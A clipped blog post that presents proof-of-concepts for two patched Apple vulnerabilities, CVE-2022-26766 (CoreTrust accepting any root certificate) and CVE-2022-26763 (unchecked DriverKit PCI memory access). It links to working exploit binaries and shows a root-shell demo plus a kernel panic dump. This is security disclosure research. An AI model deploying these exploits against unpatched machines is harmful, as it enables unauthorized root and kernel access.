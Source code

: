 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [worthdoingbadly.com](https://worthdoingbadly.com/coretrust/)

> Here are two proof-of-concepts for CVE-2022-26766 (CoreTrust allows any root certificate) and CVE-202......

Here are two proof-of-concepts for CVE-2022-26766 (CoreTrust allows any root certificate) and CVE-2022-26763 (`IOPCIDevice::_MemoryAccess` not checking bounds at all), two issues discovered by [@LinusHenze](https://twitter.com/linushenze) and patched in [macOS 12.4](https://support.apple.com/en-ca/HT213257) / [iOS 15.5](https://support.apple.com/en-us/HT213258).

Demo: CoreTrust
---------------

On a M1 Mac Mini with macOS 12.3.1 and SIP enabled, running this [`spawn_root`](https://github.com/zhuowei/CoreTrustDemo/releases/download/v0.1.0/spawn_root) app will give you a root shell:

```
zhuowei-mini:~ zhuowei$ ./spawn_root bash
zhuowei-mini:~ root# id
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae),701(com.apple.sharepoint.group.1),702(com.apple.sharepoint.group.2)
zhuowei-mini:~ root# 


```

```
zhuowei-mini:~ zhuowei$ uname -a
Darwin zhuowei-mini.local 21.4.0 Darwin Kernel Version 21.4.0: Fri Mar 18 00:47:26 PDT 2022; root:xnu-8020.101.4~15/RELEASE_ARM64_T8101 arm64
zhuowei-mini:~ zhuowei$ csrutil status
System Integrity Protection status: enabled.


```

Demo: DriverKit
---------------

… all right, I don’t have a good demo for this:

My current proof-of-concept requires SIP to be disabled and the built-in Bluetooth driver removed with a custom kernel… which defeats the point of a kernel bug. but _anyways_:

On a M1 Mac Mini with macOS 12.3.1, loading [this](https://github.com/zhuowei/PCICrash) DriverKit driver then invoking it will panic the kernel:

```
panic(cpu 3 caller 0xfffffe001a659d58): Kernel data abort. at pc 0xfffffe0019e465e8, lr 0x13eafe001c0cb600 (saved state: 0xfffffe6081f0ae50
)
          x0:  0xdeadbd505fb97eef x1:  0x0000000041414141  x2:  0x0000000000000008  x3:  0x0000000041414141
          x4:  0xfffffe6081f0b55c x5:  0xfffffe1666b90d20  x6:  0x0000000000000000  x7:  0x0000000000000000
          x8:  0xfffffe001d883000 x9:  0x0000000000000000  x10: 0x0000000000000000  x11: 0x0000000000000000
          x12: 0xfffffe1666b56970 x13: 0x0000000000000078  x14: 0x0000000000003207  x15: 0x0000000000000000
          x16: 0xfffffe0019e465e8 x17: 0xfffffe0019e465cc  x18: 0x0000000000000000  x19: 0x0000000000000000
          x20: 0xdeadbeefdeadbeef x21: 0xfffffe29993dd500  x22: 0x0000000000000008  x23: 0xfffffe6081f0b494
          x24: 0xfffffe6081f0b520 x25: 0xfffffe001cc61000  x26: 0xcda1fe29993dd500  x27: 0x00000000e00002bf
```